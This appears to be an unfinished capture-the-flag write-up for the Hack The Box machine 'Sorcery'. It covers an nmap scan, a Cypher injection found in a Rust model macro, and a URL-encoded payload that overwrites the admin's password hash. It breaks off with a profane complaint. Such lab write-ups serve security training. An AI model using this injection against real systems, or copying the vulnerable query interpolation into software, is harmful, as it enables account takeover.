




## **Ports and Services Scan:**

```bash
>> nmap -sCV -vv 10.10.11.73 -oN nmap.all
cat nmap.all                                                               
# Nmap 7.98 scan initiated Tue Jan 13 20:33:22 2026 as: /usr/lib/nmap/nmap --privileged -sCV -vv -oN nmap.all 10.10.11.73                                                                     
Increasing send delay for 10.10.11.73 from 0 to 5 due to 144 out of 478 dropped probes since last increase.                                                                                   
Nmap scan report for sorcery.htb (10.10.11.73)                                                 
Host is up, received echo-reply ttl 63 (0.27s latency).                        
Scanned at 2026-01-13 20:33:22 +0545 for 101s                                                  
Not shown: 998 closed tcp ports (reset)                                                        
PORT    STATE SERVICE  REASON         VERSION                                                  
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)                   
| ssh-hostkey:                                                                                                         
|   256 79:93:55:91:2d:1e:7d:ff:f5:da:d9:8e:68:cb:10:b9 (ECDSA)                                
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBfa7NkcG06jauyQoChLbmUKvvd6pkaufyqxTH7Lc0LeTfUmDv2PZsCeNM0mm6JytOdhIhsLONllRYME0Fizhjw=
|   256 97:b6:72:9c:39:a9:6c:dc:01:ab:3e:aa:ff:cc:13:4a (ED25519)                                                      
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPzwgWWL8qvTI4EzWXUX7/aGWcm8W4pTGnFiqfVbeOeh                                     
443/tcp open  ssl/http syn-ack ttl 62 nginx 1.27.1                                             
|_http-server-header: nginx/1.27.1                                                             
| http-title: Sorcery                                                                                                  
|_Requested resource was /auth/login                                                                                   
|_ssl-date: TLS randomness does not represent time                                                                     
| http-methods:                                                     
|_  Supported Methods: GET HEAD POST                                
| tls-alpn:                                                                                                            
|   http/1.1                                                        
|   http/1.0                                                        
|_  http/0.9                                                        
| ssl-cert: Subject: commonName=sorcery.htb                                                                            
| Issuer: commonName=Sorcery Root CA                                                                                   
| Public Key type: rsa                                              
| Public Key bits: 4096                                             
| Signature Algorithm: sha256WithRSAEncryption                    
| Not valid before: 2024-10-31T02:09:11                           
| Not valid after:  2052-03-18T02:09:11                           
| MD5:     c294 7d7a 2965 5c32 3dc9 b850 e2e5 0d9a                  
| SHA-1:   9d44 6d3d 5fb6 252c da8b 3dd1 b5a2 aeb3 1e4b 5534        
| SHA-256: 0324 d0ec 0618 b80a e22b 5789 04e2 7651 f5f3 654f 6445 b242 92fa 651a a890 15c2                                              
| -----BEGIN CERTIFICATE-----                                       
| MIIEuTCCAqECFFDAAPGK7ud2DPpuM8BMaxLfK0U+MA0GCSqGSIb3DQEBCwUAMBox
| GDAWBgNVBAMMD1NvcmNlcnkgUm9vdCBDQTAgFw0yNDEwMzEwMjA5MTFaGA8yMDUy  
| MDMxODAyMDkxMVowFjEUMBIGA1UEAwwLc29yY2VyeS5odGIwggIiMA0GCSqGSIb3                                                                      
| DQEBAQUAA4ICDwAwggIKAoICAQCzJ67yuLHya53/zQsksQ67gOY0gNWc+OcVKmf6                                                                      
| I8dwbMHLuBYRNckTwvrRgi6C+qSQlsJxzRqaAdmgVQphhSEC5yBsPJZlzXHVw4iZ
| 6rznhlhyAFFJTcZelj/Si2HDwG5VFE1FNRlPwSCk1JXAZGhDpJZhlyq+/3uA2DdF
| zdh+0VrWzbWwzNf551De5xRtWPfU5Bogn1qcuenCV2RmZqqGCYj0BP+I8E+AqccH  
| gicLQCG7d9G5pY6y3PrI/fUslqA0QEdw5XthrZSOiAxBTOcqEW9uA4hssOsUTd3H
| benGAlApswSGy8wWEsKzu3AnvERMCUr+kel0wX/y4rSpMFYLc5YY5A262Lgwc2Ib             
| XR5C8nFaGhcLwYtUiwf6HRo52rm18eu1lFNfHW0Wy6ay6K3jxgUfpDziIgZyGacZ             
| PM7Yrmqnpe4ovrVawlytIu2bupNYVPtZAktSFhtZHrhjbQz5qDrAEySdhMDfBfD4   
| jtBj5EbtPWNrphQsk3N0fN+xuZfIq3xDn8UEiZ/HqsYXFse1f0R3Cl7kpO3aVFX+
| Md4qKNM0wsrIMCywYP3ZmUYeX8NcHsgYNWILunX5qYBYHCY1J+sIu00ctPxfRDmU                             
| ve+ppb6GQYFPuXpGzr0GEQHQDpPIBG46QzYYnGa8PgYJeFgj7Pt96lcOXnlgiZoE             
| Lrl4qwIDAQABMA0GCSqGSIb3DQEBCwUAA4ICAQAzOj7t4yHHEI6Pn+FMyci/WFUi                                                                                            
| bQKq8QytZPb9n0oaU5WoECexuEsw9JeIUoMLbllB31bnbqJrdr2FdC3qBKJKlzM5                                                                                            
| MoJ+BdBMhhIO+q/AElc8y2kWxyqeuceLiEpt0FL3kN6y44eyqKSjb9hdIIAPqTB5                             
| 7AXCxLR7eP7zjBDPP5HVuEAvizmXyCTF4/6SnvyAse3SF5G2cKWr+yNqtZOkW0Us
| +3zoj/qP0pnHjZLR+OpQ9716Ls1Q1jvTB/RoUKuSTogDuhXJ1CYMhcQx9wkJcgZm             
| lh5qAMh2eooxT6x9Ddyro45Z7u+rT3H9y6OcF5pWHlxQAj1hz6sw1mZqYN7gGwl6                             
| esChPBXQtH0cedj3e/2LDyvibMiY4ayRQo/ht98Q0qeyyTsms6DjphCbsdK6iDOQ                             
| g2ea6tdwmgEAvJggRcBhypBT6XGIjC6bP6cFy60NeMZUGvA673p18eYjTc3VFlpc                             
| FnInaCC2L9Dz8fn6iDWjlrPLcGDbIVLmsafFHd6oG9jor8ghNcPLQrSokJnZwkJM                             
| oWu6ErucUC/r9FPcDaWXBI9CzpwzRbYHo/L2nXikRS8MExI3yZWP5dsxFuALVZE4                             
| oGVdkAuuUVt+lOZ7ik8OWLxQKENAYAv88apzmWuHlM/j+/v9lygzauLtPhVhbpse                             
| 4PPnLBiUeFv9xmOPvw==                                                                         
|_-----END CERTIFICATE-----                                                                    
|_http-favicon: Unknown favicon MD5: C30C7D42707A47A3F4591831641E50DC                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                        

Read data files from: /usr/share/nmap                                                          
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 13 20:35:03 2026 -- 1 IP address (1 host up) scanned in 101.01 seconds

```

I get a Login Page and I can register as client but to register with sellers account I have to have some kind of Registration Key:



I can also see the `repo` down of the login so I added to my `/etc/hosts` file:

```
>> cat /etc/hosts
...
## some hackthebox stuff
10.10.11.73 sorcery.htb git.sorcery.htb

```



I copied the `git` repo to my machine:

```shell
>> export GIT_SSL_NO_VERIFY=true
>> git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git      
Cloning into 'infrastructure'...
fatal: unable to access 'https://git.sorcery.htb/nicole_sullivan/infrastructure.git/': server certificate verification failed. CAfile: none CRLfile: none
```

If I try to copy the git like this I will run into an error: `git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git ` 

*The error "server certificate verification failed" occurs because Git does not trust the SSL certificate presented by `git.sorcery.htb`. This is common with self-signed certificates or internal CAs that are not in your system's default trusted store.*

**Option 1:** Securely Trust the Certificate (Recommended)   
Configure Git for all repositories:

- `git config --global http.sslCAInfo /path/to/your-server-certificate.crt`  
    Configure Git for a specific server `hostname`:
- `git config --global http.https://git.sorcery.htb.sslVerify true``git config --global http.https://git.sorcery.htb.sslCAInfo /path/to/your-server-certificate.crt`

**Option 2:** Temporarily Bypass Verification (Less Secure)

- `export GIT_SSL_NO_VERIFY=true`
- `git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git/`  
    Note: Not important but good to know.

## **Cypher injection vulnerability**

The vulnerability is introduced by the `#[derive(Model)]` macro, specifically in the generated `get_by_*` functions.

```rust
let query_string = format!(
    r#"MATCH (result: {} {{ {}: "{}" }}) RETURN result"#,
    #struct_name, #name_string, #name
);

```

Cypher injection occurs because untrusted input `#name` is interpolated directly into Cypher query strings instead of being passed as parameters.

**Preparing for Cypher Payload to change the admin's password: the query looks like this in the backend.**

```
MATCH (result: User { username: ""}) MATCH (u:User {username: "admin"}) SET u.password= "$argon2id$v=19$m=32768,t=2,p=1$cmFuZHNhbHQ$4yRiJAiNhC+JLhoZPHnamEOWtmT8qMW1iHZTPy1jPUo" RETURN result { .*, d0t0: "you are hacked" } AS result //"} ) RETURN result
```

And the payload is this part:

```
"}) MATCH (u:User {username: "admin"}) SET u.password= "$argon2id$v=19$m=32768,t=2,p=1$cmFuZHNhbHQ$4yRiJAiNhC+JLhoZPHnamEOWtmT8qMW1iHZTPy1jPUo" RETURN result { .*, d0t0: "you are hacked" } AS result //
```

## Explaination:

### A. Why we have to use hash-

**1\. User submits registration in `register.rs`:**

```rust
#[post("/register", data = "<data>")]
pub async fn register(data: Validated<Json<Request>>) -> Result<Json<Response>, AppError> {
    let Request {
        username,
        password,
        registration_key,
    } = data.into_inner().into_inner();
    if User::get_by_username(username.to_owned()).await.is_some() {
        return Err(AppError::UsernameAlreadyExists);
    }
    let hash = create_hash(&password)?;
```

- User sends `username`, `password`, and optional `registration_key`.
    
- First, it checks if the username already exists.
    
- Then, the password is sent to `create_hash`.
    

**2\. Password hashing in `auth.rs`:**

```rust
pub fn create_hash(password: &String) -> Result<String, AppError> {
    let salt = SaltString::generate(&mut OsRng);
    match Argon2::default().hash_password(password.as_bytes(), &salt) {
        Ok(hash) => Ok(hash.to_string()),
        Err(error) => {
            println!("[-] {error}");
            Err(AppError::Unknown)
        }
    }
}
```

Here’s what happens:

1.  **Salt generation:**  
    `SaltString::generate(&mut OsRng)` generates a random salt for this password.
    
2.  **Argon2 hashing:**  
    `Argon2::default().hash_password(password.as_bytes(), &salt)` hashes the password using the Argon2 algorithm (a strong, modern password-hashing algorithm).
    
3.  **Return hash as string:**  
    The resulting hash is stored in the database instead of the plaintext password.
    

**3\. Store hashed password Back in `register.rs`:**

```rust
User {
        id: id.to_string(),
        username: username.to_owned(),
        password: hash,
        privilege_level: if registration_key.is_some()
            && &registration_key.unwrap() == REGISTRATION_KEY.get().await
```

- The `password` field in the `User` struct stores **only the Argon2 hash**.
    
- The plaintext password is **never saved**.
    

**So we can create the hash like this:**

```bash
>> echo -n "Admin@123" | argon2 randsalt -id -t 2 -m 15 -p 1
Type:           Argon2id
Iterations:     2
Memory:         32768 KiB
Parallelism:    1
Hash:           e3246224088d842f892e1a193c79da984396b664fca8c5b58876533f2d633d4a
Encoded:        $argon2id$v=19$m=32768,t=2,p=1$cmFuZHNhbHQ$4yRiJAiNhC+JLhoZPHnamEOWtmT8qMW1iHZTPy1jPUo
0.050 seconds
Verification ok
```

### B. Satisfying the Rust macro’s hard‑coded expectations for shape, name, and type of the query result-

From your **`Model` derive macro**, look at `from_row`:

```rust
pub async fn from_row(row: ::neo4rs::Row) -> Option<Self> {
    let node = row
        .get::<::neo4rs::BoltMap>("result")
        .expect("Result not found");

    Some(Self {
        #(#struct_def),*
    })
}

```

- The backend **always** does:
    
    `row.get("result")`
    
- The key **must be named exactly `"result"`**
    
- It must be a **Neo4j map / node-like structure**
    
- If `"result"` is missing → **panic / failure**
    

So the injected query **must return something AS `result`**.

```rust
result { .*, d0t0: "you are hacked" }
```

Take the node `result`, copy **all its properties** (`.*`),  
and **add or override** a property called `d0t0`.

AS only strings and numbers are allowed so we encode all special characters:

### Registered as a client on `sorcery.htb`, injected payload to update admin password like this:

```
%22%7D%29%20MATCH%20%28u%3AUser%20%7Busername%3A%20%22admin%22%7D%29%20SET%20u.password%3D%20%22%24argon2id%24v%3D19%24m%3D32768%2Ct%3D2%2Cp%3D1%24cmFuZHNhbHQ%244yRiJAiNhC%2BJLhoZPHnamEOWtmT8qMW1iHZTPy1jPUo%22%20RETURN%20result%20%7B%20.%2a%2C%20d0t0%3A%20%22you%20are%20hacked%22%20%7D%20AS%20result%20%2F%2F
```



I LoggedIn as Admin:



How the fuck do I loggedIn with the passkey fuck this machine.

&nbsp;

&nbsp;

&nbsp;
